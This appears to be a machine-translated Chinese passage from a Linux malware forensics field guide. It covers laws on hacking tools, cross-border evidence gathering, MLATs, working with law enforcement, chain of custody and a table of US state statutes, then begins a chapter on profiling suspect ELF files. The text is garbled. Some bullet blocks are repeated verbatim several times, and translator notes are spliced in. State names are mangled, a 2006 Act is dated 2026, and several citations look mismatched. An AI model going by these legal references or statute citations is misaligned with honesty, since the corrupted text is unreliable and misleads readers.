  - 其中一类名为“滥用设备”的行为，将故意拥有或贩卖旨在便利犯罪的“黑客工具”定为刑事犯罪。
- 问题：
  - 软件供应商、研究和安全分析师以及数字调查人员可能无意中但仍会被卷入参与国实施的不够严谨而被滥用的国家法律中。

关于公约实质性条款（包括第 6 条）的官方注释并未提供进一步的启示.^39，但它似乎排除了对可能具有合法和非法法实践的工具的应用。

### 英国——计算机滥用法/警察与司法法案

- 是什么：
  - 对 1990 年《计算机滥用法》的拟议修订，通过 2006 年《警察与司法法案》实施。40
  - 将贩卖黑客工具定为刑事犯罪。
- 问题：
  - 参与国实施的不够严谨而被滥用的国家法律可能导致数字调查人员卷入。

*注：由于原文在部分段存在逻辑重复或缺失，翻译已严格遵循原文内容。*

### 德国——刑法典第 20c 条修订

- 是什么：
  - 为了访问数据而绕过安全措施的德国法律修订。
  - 德国公约的规定：


- 禁止制造、安装或传播软件以绕过安全措施。

- 问题：

  - 全球范围内的调查人员认为该法律模糊、过于宽泛且无法遵守。

  - 签署公约的法律文本是模糊。

*注：由于原文在部分段存在逻辑重复或缺失，翻译已严格遵循原文内容。*

# LINUX 系统恶意软件取证现场指南

## 美国——计算机欺诈与滥用法 (CFAA)

- 与其他国家不同，其包含“授权”。

- 问题：

  - 尽管美国参与了网络犯罪公约，但 CFAA 包含了“设备”。

  - 问题：

    - “类似信息”是指什么？

    - 签署公约的法律是：

      - Q：公约是否禁止合法的测试？

      - A：公约并未规定为了公约所述目的而使用此类工具是违法的。

此外，公约第 6 条第 2 段明确规定合法的科学研究和教育实践不构成犯罪。

在实践中，现有的美国法律对使用、拥有或贩卖“拦截”工具的行为定为刑事犯罪，涉及调查人员。

# 教训

- 在承诺实施公约及其条款的 43 个国家进行取证分析时，密切关注滥用设备的设备法律。

- 如有疑问，请获得适当的法律建议。

³7 公约全文可查阅 http://conventions.coe.int/Treaties/Html/185.htm。

38 关于公约的签署国完整列表，请参阅地图 http://conventions.coe.int/Common/ChercheSig.asp?NT=185&CM=8&DF=&CL=ENG。

39 公约全文可查阅 http://conventions.coe.int/Treaty/en/Reports/Html/185.

40 2026 年《警察与司法法案》的预期版本可查阅 http://www.statutelaw.gov/content.aspx?LegType=All+Legislation&title=Police+and+Justice+Act+2006&searEnched=0&exactMatch=0&confPower=0&blankAmendment=0&sortAlpha=0&TYPE=QS&PageNumber=1&NavFrom=0&opentTextDoc=295435&ActiveTextDoc=295444filesize=24073。

41 该指导性方针可查阅 http://www.psuk.gov.uk/legal/a-to-c/computer_misuse_act_1990/#an07。

42 德国刑法典的相关规定（英文版）可见于 http://www.gesetze-im-internet.de/english_stgb/english_stgb.html#p1715。

³3 参见 18 U.S.C. §§ 1030(a), (c)(2)(A)。

⁴4 参见 http://nispom.us/modules/news/article.php?storyid=195。

## 跨边界数据获取

在美国，受本章之前讨论的权限来源和局限性的影响，数字调查人员在内部调查过程中，通常被要求对存储跨公司网络的电子数据进行详尽的保护、收集和分析。然而，他们的发现和其他数据保护义务可能触及境外边界，例如外国子公司的公司网络，这可能与外国数据保护法冲突；这些法律将存储在计算机、服务器和设备上的员工数据视为员工个人的财产，而非公司的财产。

## 私人或民事调查中的职场数据

- 职场数据的处理取决于调查背景。虽然对于政府或刑事调查，存在更正式的机制来收集数字证据，但私人或民事调查将受特定国家数据隐私法的约束。

- 欧洲

    - 1995年《欧盟数据保护指令》⁴⁵不适用于在刑事执法或政府安全措施背景下产生的数据处理，该指令是 27 个成员国遵循该指令并制定特定国家隐私法律的起点⁴⁶。它对职场数据的处理规定了八项通用限制；⁴⁷

        - 目的限制：数据应针对特定目的进行处理，并随后仅以与该目的一致的方式使用或通信。

        - 完整性：数据应保持准确、更新，且对于收集时的目的已不再需要。

⁴⁵ 欧洲议会和理事会1995年10月24日关于处理个人数据保护个人以及此类数据自由流动的第95/46/EC号指令，见 http://europa.europa.eu/legislation/summaries/summary/li14012.en。

⁴⁶ 欧盟的以下27国要求根据该指令实施立法：奥地利、比利时、保加利亚、塞浦路斯、捷克、丹麦、爱沙尼亚、芬兰、法国、德国、希腊、匈牙利、爱尔兰、意大利、立陶宛、卢森堡、马耳、荷兰、波兰、葡萄牙、罗马尼亚、斯洛伐克、斯洛文尼亚、西班牙、瑞典和英国。此外，其他一些国家也有监管员工数据访问和跨境数据传输的法律，供美国数字调查人员进行内部调查。例如，冰岛、列支敦和挪威（共同组成欧洲经济区）、阿尔巴尼亚、安道拉、波黑、克罗地亚、马其顿和瑞士（欧盟邻国），俄罗斯拥有与欧盟数据保护指令相似的法律。

“跨境数据传输的全球解决方案：为企业隐私规则辩护”，38 Geo. J. Int'l L 449, 455 (2007年春季)。

⁴7 V. Byrd, "美国和欧盟的财务隐私：通往跨西洋监管协调之路，”24 Berkeley Int'l 939, 958-59 (2006)。

## Linux系统恶意软件取证领域指南

- 注意：数据主体应被告知任何数据处理的目的，以及确定数据处理目的和手段的人员或实体的身份。

- 访问/同意：数据主体有权获得与其相关的个人数据副本、纠正不准确的数据并可能对处理提出异议。

- 安全：必须采取适当措施保护数据。

- 进一步传输：数据可能无法发送不对个人数据提供“充分”保护水平的国家。

- 敏感数据：必须对揭示数据主体种族或民族起源、意见、宗教或哲学信仰、工会成员、健康或生活的特殊类别数据采取额外保护。

- 执行：数据主体必须有救济办法来纠正违规行为。

- 关于进一步传输的限制，欧盟（EU）指令未提供对“充分”隐私保护的定义。由于从前任或现任员工获得的明确同意赋予了调查人员将数据运回实验室的能力，欧盟指令中关于“进一步传输”禁止的其他其他例外似乎并不适用于受害公司为响应计算机欺诈或滥用事件而自愿进行的内部调查。例如，由于可能无法为内部调查中的事实取证确立数据传输的法律必要性，可能要求数字调查人员在发现数据的欧洲国家对相关数据进行保护、收集和分析。

### 从欧洲到美国的数据传输

- 当欧盟质疑个人数据的“充分”保护是否可能阻碍所有从欧洲到美国的数据传输时，美国商务部通过建立安全港框架做出回应，对经过认证的个人和实体处理个人数据施加保护措施。

- 2000年，欧盟批准安全港框架作为对个人数据的“充分”法律保护，该项批准约束了所有成员国遵守该指令。

- 经认证实体的安全港认证相当于对欧洲监管机构和在欧盟工作的个人的一种陈述

48 指令，26(1) (a)（传输“可以在满足以下条件下进行：数据主体已对拟议的传输给予了明确同意”）。

49 安全港框架由美国商务部与欧盟之间协商的一系列文件组成，包括七项隐私原则。例如，http://export.gov/safeharbor/eu_main_018476.asp。

50 见：http://export.gov/wcm/groups/exportgov/documents/web_content/sh_selfcert_guide.pdf。

## 第4章 法律考虑

“充分”的隐私保护的存在是为了允许将个人数据传输到该美国实体。

- 然而，安全港认证可能与成员国立法的进一步传输限制以及“阻塞法”发生冲突，例如法国的一项法律，禁止法国公司及其员工、代理或官员向外国诉讼方或公共当局披露“经济、商业或技术性质”的信息。

### 政府或刑事调查中的职场数据

- 在内部调查背景下、遵守美国监管要求或受害公司向执法部门进行刑事报案时，获取海外证据的其他正式和非正式机制可能是很有用的。

### 法律协助协助请求 (MLAT)

- 条约规定，各签署国有明确义务在刑事案件中提供协助，在监管事项中中央机构可以请求保护和收集存储在各自国家的媒体和数字证据。

- 请求方寻求并转发其地方、州或国家执法实体的请求，接收方有权将请求执行委托给其某个实体。

- 对于希望在美国收集证据的外国当局，美国司法部是中央机构，通过其国际事务办公室工作。

- MLAT 请求接收端的中央机构可能非常不愿行使裁量权来配合。尽管如此，大多数中央机构都有动力履行 MLAT 请求，以便在反方向的请求中获得类似的配合。

### 证词请求

- MLAT 中可靠性较低、耗时较长的机制是证词请求（或“请求函”），即一个国家的法院提出的正式请求

# LINUX 系统恶意软件取证领域指南

向另一国要求提供相关数字证据的“适当司法机关”提交请求书。⁵54

- 然而，接收请求的国家没有义务提供协助。

- 该过程可能需要一年或更长时间。

## 非正式协助

- 除了广为人知的欧洲理事会和 G8（八国集团小组）外，许多国际组织正试图解决数字调查人员在进行网络调查时面临的困难，这些调查往往涉及需要保护和分析海外证据。

- 通过以下组织获得的非正式协助和支持，可能对于理解复杂的国际局势大有帮助：

- 欧洲委员会《网络犯罪公约》

http://www.coe.int/t/DGHL/cooperation/economiccrime/cybercrime/default_en.asp

- G8 高科技犯罪小组（数据保护清单）

http://www.coe.int/tg1/legalcooperation/economiccrime/cybercrime/Documents/Points%20of%20Contact/24%208%20DataPreservationChecklists_en.pdf

- 国际刑警组织信息技术犯罪

http://www.interpol.int/Crime-Asyers/Cybercrime

- 欧洲取证科学机构网络国际取证战略联盟

http://www.enfsi.eu/sites/default/files/documents/mou_ifsa.pdf

- 亚太经济合作组织电子商务指导小组

http://www.aecec.org/Groups/Committee-on-Trade-and-Investment/Electronic-Commerce-Steering-Group.aspx

- 经济合作与发展组织信息安全与隐私工作组

APEC-OECD 恶意软件研讨会—会议记录—2007

http://www.oecd.org/daataecd/37/60/38738890.pdf

- 美洲组织泛美洲网络犯罪合作门户网站

http://www.asas.org/juridico/english/english/cyber.htm

> ⁵54 美国国务院提供了关于嘱问书（letter rogatory）程序要求的指导，详见 http://travel.state.gov/law/judicial/judicial_683.html。

## 涉及执法部门

受害公司选择无所作为、寻求民事救济还是向执法部门报告事件，都会影响数字调查人员的工作范围和性质。一旦入侵被控制且网络获得安全，对识别出的恶意软件的分析可能会变成纯取证工作。当受害公司试图就损害寻求金钱赔偿时，恶意软件的功能可能成为民事诉讼中书面或口头证词的主题。刑事移送的可能性调整了调查格局。了解受害公司在决定是否以及何时涉及执法部门时所经历的过程，将有助于数字调查人员预见相关的后果。

## 受害者的抗拒心理

- 受害公司往往不愿报告计算机犯罪事件。⁸⁸⁸⁵

- 公众关注和尴尬的威胁（特别是对股东而言）往往给管理层蒙上了一层阴影。

- 紧张的网络管理员因担心丢工作，认为自己未能充分保护和监控相关系统，因此将重点放在了遏制后的措施和预防措施上。

- 法律部门在确定在业务运营的管辖区内不需要或几乎不需要通知企业客户后，就不会得打成拙。

- 审计委员会和董事会可能会支付网络勒索者的随机要求，以换取一个销毁被盗数据的“承诺”，无论这种可能性有多小，而且在接受了其他建议的情况下，也不愿涉及执法部门。

## 受害者的误解

- 许多公司误认为涉及执法部门根本不是解决办法。

- 受害者对应该联系哪个联邦、州或地方机构感到困惑。

- 受害者担心执法探员的技术经验、机构的疏忽、延迟、对业务干扰、敏感或机密信息的泄露，以及对网络设备和数据的损害。

- 受害者担心需要投入资源来支持移送工作。

> ⁸⁸⁵ B. Magee, “企业报告网络犯罪的污名化；”business.scotsman.com (2008年4月), 可访问于 http://business.scotsman.com/ebusiness/firms-fear-stigma-of-reporting.3976469.jp。

- 受害者夸大了居住在国外的黑客少年永远进入法庭的可能性极其小。

- 受害者的移送成本超过了任何可能的赔偿。

## 执法部门的视角

网络犯罪的起诉和执法在联邦、州和地方政府中的优先级从未如今日之高。

- 由于近期计算机欺诈和滥用的泛增是前所未有的，国内外政府都投入了大量资源用于开发和培训技术人员、探员和检察官，以在初生的法律环境中打击网络犯罪。

- 执法部门理解内部和外部数字调查人员是第一道防线，而且最适合检测、初步调查并几乎封装好部分最佳证据，以便执法部门成功地以监禁、罚款和赔偿的形式寻求并获得真实数据。

- 内部和外部数字调查人员收集的证据只有通过执法部门拥有的法律程序（大陪团传票、搜查令）和数据保护权限（拨号、追踪、监听）才能得到加强，而这些是任何私方均不具备的。

- 执法部门在打击网络犯罪方面的国际合作从未如此密切，甚至青少年也正因为其网络犯罪行径被带上联邦法庭。

## 权衡

受害公司与执法部门的调查目标往往存在偏差，导致数字调查人员有时处于中间。

- 由于近期计算机欺诈和滥用的泛增是前所未有的，国内外政府都投入了大量资源用于开发和培训技术人员、探员和检察官，以在初生的法律环境中打击网络犯罪。

- 执法部门理解内部和外部数字调查人员是第一道防线，而且最适合检测、初步调查并几乎封装好部分最佳证据，以便执法部门成功地以监禁、罚款和赔偿的形式寻求并获得真实数据。

- 内部和外部数字调查人员收集的证据只有通过执法部门拥有的法律程序（大陪团传票、搜查令）和数据保护权限（拨号、追踪、监听）才能得到加强，而这些是任何私方均不具备的。

- 执法部门在打击网络犯罪方面的国际合作从未如此密切，甚至青少年也正因为其网络犯罪行径被带上联邦法庭。

- 受害公司与执法部门的调查目标往往存在偏差，导致数字调查人员有时处于中间。


由于近期计算机欺诈和滥用的泛增是前所未有的，国内外政府都投入了大量资源用于开发和培训技术人员、探员和检察官，以在初生的法律环境中打击网络犯罪。

执法部门理解内部和外部数字调查人员是第一道防线，而且最适合检测、初步调查并几乎封装好部分最佳证据，以便执法部门成功地以监禁、罚款和赔偿的形式寻求并获得真实数据。

内部和外部数字调查人员收集的证据只有通过执法部门拥有的法律程序（大陪团传票、搜查令）和数据保护权限（拨号、追踪、监听）才能得到加强，而这些是任何私方均不具备的。

执法部门在打击网络犯罪方面的国际合作从未如此密切，甚至青少年也正因为其网络犯罪行径被带上联邦法庭。

受害公司与执法部门的调查目标往往存在偏差，导致数字调查人员有时处于中间。

# Linux 系统恶意软件取证领域指南

记录对攻击所做观察的时间、方式及具体内容；创建、删除、最后访问、修改或写入的文件或日志数量；新增或更改的用户账户或权限；数据可能被发送到的机器设备；以及其他潜在受害者的身份。

记录关于证据缺失的观察结果——这些结果可能与在类似事件处理经验中预期发现的结果不符。

记录所采用的方法，以避免对网络上的现有数据进行更改、删除或修改。

跟踪阻止对受影响网络进行有害访问或持续损害所采取的措施，包括过滤或隔离的区域。

记住尽早开始识别并记录系统受损的程度以及产生的修复成本——运行这些记录，将使未来向责任方追偿以及进行任何随后的刑事调查变得容易得多。

# 保护

仔细保护数字证据可以进一步提高发现的可重复性、可辩性和可靠性。

在开始时，为原始介质创建符合取证要求的冗余镜像，将一份与原始证据一起存储，并将另一份镜像作为分析的工作副本。尽可能避免简单地逻辑复制数据（即使是服务器级数据）。

立即保护备份文件和相关日志。

在保护数据时，进行哈希、哈希、哈希处理。及早进行哈希以纠正后期可能存在的证据处理缺陷。

在分析过程中，通过哈希查找或排除已已知的文件。

考虑使用 `Camasia` 或其他屏幕录屏工具在采取措施之前保护对非法活动的观察记录——这种方法可以补充从启用和扩展的网络日志中获取的证据。

如果法律顾问已批准使用“嗅探器”或其他监控设备来记录入侵者与任何受攻击服务器之间的通信；请务必保护并记录有关这些录像的相关信息。

关键在于利用可用的取证工具来增强工作的完整性、可靠性和重复性。

# 监管链

严谨的监管链实践可以决定数字取证调查的成败。

尽管在大多数法院诉讼中，监管链关乎证据的效力而非可采纳性，但这一概念仍然至关重要，特别是在证据可能提交给大审判团、仲裁员或类似的证据规则宽松的替代环境的情况下；因此，监管链中无法解释的中断可能会使证据更容易被忽视或无视。

能够证明在收集或生成到提交期间，数据以及过程中生成的调查记录未受到污染、误识别或篡改，这不仅关乎证据的完整性，更关乎其关联性——没有人会关心一个无法确定其与其描述相符的物品，或者一个无法确定其时间或无法归于某个特定操作的记录。

对于数据，监管链不需要是一篇论文；只需记录物品的唯一标识信息（序列号），记录针对该物品采取的每项操作的日期和描述（存入存储、从存储中取出、挂载进行检查、返回存储），并识别每一步的执行者（推测为具有访问权限的有限范围）。

单一个负责生成记录并配备适当数据监管链的执行者，就可以建立足够的证据基础，而无需在事实发现者面前提交链中的每一个执行者。

第 4 章 | 法律考量

# 各州私家侦探与违规通知法

| 州 | 私家侦探许可法 | 州违规通知法 |
|---|---|---|
| 阿拉巴马州 | 无 | 无 |
| 阿拉斯斯加州 | 无 | `ALASKA. STAT. § 45.48.010` |
| 亚利桑那州 | `ARIZ. REV. STAT § 32-2401` | `ARIZ. REV. STAT. § 44-7501` |
| 阿肯肯州 | `ARK. CODE § 17-40-350` | `ARK. CODE §§ 4-110-103-108` |
| 加利福尼亚州 | `CAL. BUS. & PROF. CODE § 7520` | `CAL. BUS. & PROF. CODE §§ 1798.29(a) and 1798.82(a)` |
| 科罗拉多州 | 无 | `COLO. REV. § 6-1-716` |
| 康涅狄格格州 | `CONN. GEN. STAT. § 29-154` | `CONN. GEN. STAT. § 36a-701b` |
| 特拉华州 | `24 Del. C. § 1303` | `6 Del. C. § 128-101` |
| 哥盛顿特区 | `17 DCMR § 2000.7` | `D.C. CODE § 28-3851-28-3853` |
| 佛罗里达州 | `FLA. STAT, § 493.6100` | `FLA. STAT, § 817.5681` |
| 乔治亚州 | `GA. CODE § 43-38-6` | `GA. CODE § 10-1-9` |
| 夏夷州 | `H.R.S. § 463-5` | `H.R.S. § 487N-2` |
| 爱达荷州 | 无 | `I.C § 28-51-105` |
| 伊利诺伊州 | `225 ILCS 447/10-5` | `815 ILCS 530/10` |
| 印第安纳州 | `IC § 25-30-1` | `IC § 24-4-1` |
| 爱荷华州 | `I.C.A. § 80A.3` | `I.C.A. § 715C` |
| 堪萨斯州 | `K.S.A. § 75-02` | `K.S.A. § 50-72` |
| 肯塔基州 | `KRS 329A.015` | 无 |
| 路斯安那州 | `LSA-R.S. § 37-3501` | `LSA-R.S. § 51-307` |
| 缅因州 | `M.R.S.A § 8104` | `M.R.S.A § 1348` |
| 马里兰州 | `MD BUS OCCUP & PROF. § 13-301` | `MD § 14-3504` |
| 马萨诸塞州 | `M.G.L.A 147 § 23` | `M.G.L.A 93H` |


| 密歇根州 | M.C.L.A § 338.823 | M.C.L.A § 445.72 |

| 明尼苏达州 | M.S.A. § 326.381 | M.S.A. § 325.61 |

| 密西西比州 | 无 | MS ST § 75-24-29 |

| 州 | 私家侦探许可法 | 州违规通知法 |

| 密苏里州 |州 | MO ST § 324.1104 | MO ST § 407.1500 |

| 蒙大拿州 | MCA § 37-60-301 | MCA § 30-1404 |

| 内布拉斯加州 | NEB. REV. STAT § 71-3202 | NEB. REV. STAT § 87-801 |

| 内内华达州 | NEV. REV. STAT § 648.060 | NEV. REV. STAT § 603A.220 |

| 新罕布什尔州 | N.H. REV. STAT § 106-F:5 | N.H. REV. STAT § 359-C:19 |

| 新泽西州 | N.J. STAT § 45-19-10 | N.J. STAT § 56-163 |

| 新墨西哥州 | 16.48.1-10 | 无 |

| 纽约州 | N.Y. GEN. BUS. § 70.2 | N.Y. GEN. BUS. § 899-aa |

| 卡罗来纳州 | N.C. GEN. STAT § 74C-2 | N.C. GEN. STAT § 75-65 |

| 北达科他州 | N.D. ADMIN. REV. 93-02-01 | N.D. CENT. CODE §§ 51-3001 et. |

| 俄亥州 | OHIO. REV. CODE § 4749.13 | OHIO. REV. CODE § 1349.19 |

| 俄克拉荷马州 | 59 OKLA STAT § 1750.4 | 24 OKLA. STAT § 16 and 74 OKLA. STAT § 3113.1 |

| 俄勒冈州 | OR. REV. STAT § 703.405 | OR. REV. STAT § 646A.600, 646A.602, 646A.604, 646A.624 |

| 宾夕法尼亚州 | 22 PA. STAT 13 | 73 PA. STAT §§ 2301-2308, 2329 |

| 罗德岛 | R.I. GEN. LAWS § 5-55-21 | R.I. GEN. LAWS §§ 11-49.2–11-49.7 |

| 南卡罗来纳州 | S.C. CODE § 40-18-70 | S.C. CODE § 39-1-90 |

| 南达科他州 | 无 | 无 |

| 田纳西州 | 62 TENN. CODE § 1175-04-06 (2) | TENN. CODE § 47-18-2107 |

| 德克萨斯州 | TEX. OCC. CODE § 1702.101 | TEX. BUS. & COM. CODE § 521.053 |

| 犹州 | UTA CODE §§ 53-9-1072 (a) (i) and (iii) | UTA CODE §§ 13-44-101, 13-44-201, 13-44-202, and 13-44-301 |

| 佛蒙特州 | 26 V.S.A. § 3179 | 9 V.S.A., § 2430 and 9 V.S.A. § 2435 |

| 弗吉尼亚州 | VA CODE 9.1-139 C | VA. CODE § 32.1-127 |

# 第 4 章 法律考量

# 245

| 州 | 私家侦探许可法 | 州通知法 |

|---|---|---|

| 华盛州 | WASH. REV. CODE § 186.150 | WASH. REV. CODE § 19.255 |

| 西弗吉尼亚州 | W.VA. CODE § 30-18-8 | W.VA. CODE § 46A-2A-101 |

| 威斯康星州 | WIS. RL § 31.01 (2) | WIS. STAT. § 13.948 |

| 怀俄州 | 受当地管辖区监管 | WYO. STAT. §§ 40-12-501 and 40-12-502 |

# 国际资源:

# 跨境调查

生效条约：美国条约及国际协议列表

http://www.state.gov/documents/organization/89668.pdf

司法协助书的准备

http://travel.state.gov/law/judicial/683.html

美洲组织

美洲国家网络犯罪合作门户

http://www.oas.org/juridico/english/cyber.htm

欧洲理事网络犯罪公约

http://www.coe.int/Treaty/Commun/QuelezVous.asp?NT=185&CM=1&CL=ENG (以及更广泛的) http://www.coe.int/d/DGHL/cocooperation/economiccrime/cybercrime/default_en.asp

欧盟2010年攻击信息系统指令

http://ec.europa.eu/dgs/home-affairs/policies/crime/1_en_actpart1_v101.pdf

欧洲法医学网络（国际科学合作备忘录）

http://www.enfsi.eu/sites/default/files/documents/mou_ifsa.pdf

高技术犯罪小组（数据保护清单）

http://www.coe.int/dt/dg1/legalcooperation/economiccrime/cybercrime/Documents/Points%20of%20Contact%24%20DataPreservationCheck-lists.Points

国际刑警组织

信息技术犯罪——区域工作小组

http://www.interpol.int/Crime-areas/Cybercrime/Cybercrime

亚太经济合作

## Linux 系统恶意软件取证实战指南

电子商务指导小组

http://www.apec.org/Groups/Committee-on-Trade-and-Investment/Electronic-Commerce-Steering-Group.aspx

经济合作与发展组织

信息安全与隐私工作小组

（APEC-OECD 恶意软件研讨会——记录——2007年4月）

http://www.oecd.org/dataoecd/37/60/38738890.pdf

经济合作发展组织 (OECD)

关于隐私保护和个人数据跨境传输指南

http://www.oecd.org/document/18/0,3746.en_2649_34255_181586_1_L_1_00.html

国际网络安全保护联盟 (ICSPA) 网络安全新闻

https://www.icespa.org/nc/media/icespa-news

Alana Maurushat，澳大利亚对公约的加入：在僵尸网络和攻击性工具时代，该公约对于打击网络犯罪是否仍然具有意义？新南威尔士大学期刊，第33卷第2期，第431–473页 (2010年)，可访问 http://www.austlii.edu/au/au/journals/UNSWLRS/2011/20.txt/cgi-bin/download.cgi/download/au/journals/UNSWLRS/2011/20.rt。

# 联邦规则：数字调查员的证据

## 关联性

所有相关证据均具有可采性。

“相关证据”是指具有任何倾向，使得某一事实的存在对诉讼裁决的影响性比在没有该证据的情况下更大或更小的的证据。

尽管证据具有相关性，但如果其证明价值被不公平偏见的危险、争议混乱或误导陪审团的风险大大抵消，或者考虑到过度延迟、时间浪费和不必要的呈现累积证据，则该证据可能被排除。

## 真实性

认证或身份识别作为采纳的先决条件，通过足以支持认定所涉事项与其主者声称的一致的证据来满足。

## 最佳证据

副本的采纳性与原件相同，除非 (1) 对原件的真实性提出了真正的疑问，或 (2) 在该情况下用副本代替原件是不公平的。

## 专家证言

专家可以以意见或推理的形式进行证言并给出理由，而无需先对基础事实或数据进行证言，除非法院另有要求。在任何情况下，专家都可能要求在交叉询问时披露基础事实或数据。

## 律师-客户特权放弃的限制

在以下情况下，披露律师-客户特权或工作成果在联邦或州诉讼中不视为放弃：

- 披露是无意的

- 特权或保护的持有者采取了合理措施防止披露

- 持有者及时采取了合理措施纠正错误

# 文件识别与剖析

Linux 系统上可疑文件的初步分析

- 本章解决方案：

- 文件剖析流程概述

- Linux 可执行文件操作

- 对可疑文件进行剖析

- 文件相似性索引

- 文件可视化

- 文件签名识别与分类

- 嵌入产物提取

- 符号与调试信息

- 嵌入文件元数据

- 文件混淆：加壳与加密识别

- 重新审嵌入产物提取

- 可执行与链接格式 (ELF)

- 可疑文档文件剖析

- Adobe 便携文档格式 (PDF) 文件剖析

- Microsoft (MS) Office 文件剖析

## 引言

本章介绍了对可疑文件进行初步分析的方法、技术和工具。本章和其他章节涵盖的部分技术可能构成“逆向工程”，因此属于某些国际、联邦、州或当地法律的规定。同样，某些提到的工具在某些管辖区被视为“黑客工具”，并受到类似的法律监管或使用限制。其中一些法律限制列在第4章。除了仔细审查这些因素外，强烈建议并鼓励在实施本章及后续章节讨论的任何技术和工具之前获得适当的法律咨询。

Linux 系统恶意软件取证实战指南。http://doi.org/10.1016/B978-1-59749-470-0.00005-X

# 分析提示

对可疑文件的取证分析需要一个安全且隔离的环境。在对文件去混淆或解压缩后，进行静态分析。

## 文件剖析流程概述

静态分析本质上是在不实际执行代码的情况下分析代码的过程。这种方法涉及以下步骤：

- 细节：识别并记录有关文件的信息

- 哈希：获取文件的加密哈希值

- 比较：针对已知样本进行相似性索引对比

- 分类：识别文件类型

- 可视化：以图形化表示检查文件

- 扫描：使用反病毒/反间谍软件扫描可疑文件，确定其是否具有恶意属性

# 文件识别与剖析

- 文件格式是什么？

- 使用什么架构编译？

- 文件的功能是什么？

- 文件的来源是什么？

- 文件的作者是谁？

- 日期是什么时候？

- 文件的元数据是什么？

- 文件的位置在哪里？

- 文件的大小是多少？

- 文件是否经过加密？这可以通过检查文件来实现。

- 文件是恶性的吗？

- 文件的目标是什么？

- 文件的依赖项有哪些？

- 哪些是指标 (IOC)？

- 文件中的字符串有哪些？

- 文件中的函数有哪些？

- 提取与分析：对文件中包含的美国标准代码 (ASCII) 或 Unicode 字符串进行实体提取和分析，并识别任何元数据和符号信息

- 揭露：识别保护文件的代码混淆技术、加壳或加密

- 关联：确定文件是动态链接还是静态链接

- 研究：根据从文件中收集的信息进行在线研究

虽然所有这些步骤对于了解可疑文件都有价值，但可以按照不同的顺序或方法执行，取决于代码周围的信息或情况。

要彻底且灵活。

- 熟悉各种命令行界面 (CLI) 和图形用户界面 (GUI) 工具将扩大调查范围。

- 对特定工具的熟悉和适应程度，以及对其可靠性有效性的感知，通常决定了该工具是否被纳入任何特定的调查工具箱。

- 进一步的工具讨论和比较可以在本章末的工具箱中找到。🔧

# 操作 Linux 可执行文件

在讨论如何剖析可疑文件之前，我们首先回顾 Linux 环境下如何创建可执行文件以及相关的产物。

## 可执行文件是如何编译的

攻击者在编译恶意代码期间采取的步骤通常决定了在检查代码时发现的具有证据意义的项目。

正如引言中所述，当程序被编译时，程序的源代码会通过编译器——一种将用高级语言编写的编程语句转换为另一种形式的程序。通过编译器处理后，源代码被转换为对象文件。链接器随后汇集任何所需的库和对象代码，产生一个可以在操作系统上运行的可执行文件。

## 第5章 文件识别与分析

通常在编译过程中，执行文件中会添加一些信息，这些信息对于数字取证员的你来说可能非常有价值。执行文件中包含的信息量取决于攻击者如何编译它（编译后的活动，例如加壳器，它们可能会混淆信息）。在本章的后后部分，将介绍在分析过程中挖掘这些有用线索的工具和技术。

## 静态链接与动态链接

除了编译期间添加到执行文件中的信息外，检查可疑程序以确定它是静态执行文件还是动态执行文件也很重要，因为这将显著影响文件的内容和大小，进而影响你可能发现的证据。

- 请记住，静态执行文件在编译时包含了成功执行所需的所有库和代码；相反，动态链接的可执行文件依赖于共享库才能成功运行。动态链接执行文件所需的库和代码被称为依赖项。

- 在 Linux 二进制文件中（通常为可执行和链接格式 (ELF) 文件），依赖项通常是宿主机操作系统的共享库文件，通过名为动态链接的程序实现。

- 通过在运行时调用所需的库而不是将其链接到代码中，动态链接的可执行文件更小且消耗更少的系统内存。在本章后面，检查可疑二进制文件的工具和技术将揭示依赖项。

## 符号与调试信息

符号和调试信息是由编译器和链接器在编译执行二进制文件过程中产生的。

- 在 Linux 环境中，符号和调试信息存储在 ELF 文件的不同位置。符号用于解析程序变量和函数名、跟踪执行二进制文件的执行情况，包括所有函数的名称和地址；全局和局部变量的名称、数据类型和地址；对应每条二进制指令的源代码行号。

- 全局变量是程序所有部分都可以访问的变量，而局部变量仅存在于特定函数内部，对其他代码不可见。常用的符号列于图 5.2.¹ 注意，局部变量用小写字母标识，而全局变量表现为大写字母。

¹ `nm` 命令的页面也定义了符号，参见 http://man7.org/linux/man-pages/man1/nm.1.html。

## Linux 系统恶意软件取证领域指南

| 符号类型 | 说明 |

| :--- | :--- |

| A | 符号值是绝对值 |

| B | 符号位于未初始化数据段（也称为 .bss) |

| C | 符号是普通符号。普通符号是未初始化数据。符号定义在任何地方，普通符号被视为未定义引用。 |

| D | 符号位于初始化数据段（也称为 .data) |

| G | 符号位于小型对象的初始化数据段 |

| I | 指向另一个符号的间接引用 |

| N | 符号是调试符号 |

| R | 符号位于只读数据段（也称为 .rodata) |

| S | 符号位于小型对象的未初始化数据段 |

| T | 符号位于文本（代码）段（也称为 .text) |

| U | 未定义符号 |

| V | 符号是弱对象 |

| W | 符号是未被专门标记为弱对象符号的弱符号 |

| - | 符号是输出对象文件中的一个标记 (stab) |

| ? | 符号类型未知，或特定于对象格式 |

图 5.2-常用符号

- 关于 Linux 环境中符号的另一点需要记住的是，符号命名在 ELF 文件符号表或 `.symtab` 中，`.symtab` 是一个通过 ELF 段头表结构中的 `sh_type`（相应的是 `SHT_SYMTAB`）标识的 ELF 文件段。

- 每个表条目包含某些信息，包括符号名称、值、大小、类型和绑定属性，如图 5.3 所示的 ELF 符号表结构定义。

- 调试信息同样存储在 ELF 文件中并可以在 `.debug` 文件段中访问，本章稍后的“可执行和链接格式 (ELF)”章节将进行讨论。

## 剥离执行文件 (Stripped Executables)

- 通常，程序员会移除符号和调试信息以减小编译后执行文件的大小。此外，攻击者正越来越意识到他们正在被研究人员、系统专家和执法部门搜寻。因此，他们经常会特意移除或“剥离”(strip) 他们的程序。

² 工具接口标准 (TIS) 可执行和链接格式 (ELF) 规范版本 1.2，页 26, 29-20。可通过 http://refspec.linuxbox.org/elf/elf 和 http://www.cs.princeton.edu/courses/archive/fall13/cos217/reading/elf.pdf 获取。

## 第5章 文件识别与分析

```c
typedef struct {
    Elf32_Word      st_name;
    Elf32_Addr      st_value;
    Elf32_Word      st_size;
    unsigned char st_info;
    unsigned char st_other;
    Elf32_Section st_shndx;
} Elf32_Sym;

/* 符号名称（字符串表索引） */
/* 符号值 */
/* 符号大小索引 */
/* 符号类型和绑定 */
/* 符号可见性 */
/* 段索引 */
```

图 5.3-ELF 符号表结构

- 实现这一点的简单方法是对二进制文件运行 `strip` 工具。该工具会移除符号和调试信息。

## 分析可疑文件

该查询针对可疑文件时的输出（如图 5.4 所示）提供了文件属性、大小、日期和时间的列表。

## 详情

